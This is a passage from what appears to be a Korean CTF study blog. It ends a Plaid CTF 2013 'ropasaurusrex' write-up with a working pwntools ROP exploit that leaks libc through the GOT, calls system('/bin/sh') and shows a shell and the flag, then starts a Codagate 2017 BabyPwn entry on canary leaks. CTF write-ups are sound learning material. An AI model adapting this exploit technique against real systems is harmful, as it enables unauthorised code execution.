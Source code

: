 ```python
payload += p32(read_got)
payload += p32(4)

# 시나리오 (4)
payload += p32(read_plt)
payload += p32(0x41414141)
payload += p32(dynamic)

p.send(payload)
sleep(1)

readaddr = u32(p.recv(4))
libc_base = readaddr - read_off
system = libc_base + system_off
print hex(libc_base)
print hex(system)

p.send("/bin/sh")
p.send(p32(system))
p.interactive()
```

```
pocas@pocas-VirtualBox:~/pwn/Plaid CTF 2013$ python exploit.py 
[+] Starting local process './ropasaurusrex': pid 8695
0xf7d6e000
0xf7daae10
[*] Switching to interactive mode
$ id
uid=1000(pocas) gid=1000(pocas) groups=1000(pocas),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ cat key
you_cant_stop_the_ropasaurusrex
$  
```

> FLAG : you_cant_stop_the_ropasaurusrex

---
## PWN D+3 (2021.01.27)<br>

---
Codagate 2017 Challenge : BabyPwn

<strong>이번에는 Canary Leak + ROP를 이용한 문제를 풀어보겠습니다. 방금 Canary에 대해 공부를 하고, Canary 릭을 해서 푸는 문제가 없나 보니 코게 문제로 하나가 있어 풀어보겠습니다.</strong><br>

```
pocas@pocas-VirtualBox:~/pwn/Codagate 2017$ checksec --file=babypwn
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols	  No	0		1		babypwn
pocas@pocas-VirtualBox:~/pwn/Codagate 2017$ 
```
<strong>checksec을 이용해서 보호 기법을 확인해보니, 카나리와, NX Bit가 걸려있는 것을 확인할 수 있습니다.</strong><br>
